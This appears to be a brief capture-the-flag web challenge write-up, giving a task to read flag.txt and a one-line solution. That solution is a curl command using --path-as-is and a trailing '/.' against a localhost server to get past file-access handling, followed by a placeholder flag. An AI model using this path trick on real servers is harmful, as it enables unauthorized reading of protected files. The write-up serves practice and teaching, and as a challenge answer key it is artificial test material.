 # Web

## Problem

Try to read the flag.txt file.

## Solution

`curl --path-as-is http://localhost:8000/flag.txt/.`

FLAG: `flag{test_flag}`